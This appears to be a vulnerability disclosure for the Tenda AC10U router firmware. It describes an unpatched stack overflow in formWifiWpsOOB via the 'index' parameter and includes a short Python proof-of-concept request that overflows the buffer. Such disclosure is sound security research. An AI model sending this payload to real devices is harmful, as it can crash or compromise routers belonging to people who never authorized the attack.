 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the index parameter in the formWifiWpsOOB function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formWifiWpsOOB" retrieves the parameter "index" using "websGetVarWithValidate" , the value of "index" is formatted using the sprintf function, concatenated with "%s;%s" strings, and stored in "tmp". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "tmp".

![1705403976260](image/formWifiWpsOOB/1705403976260.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiWpsOOB'
payload = {
    "index": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
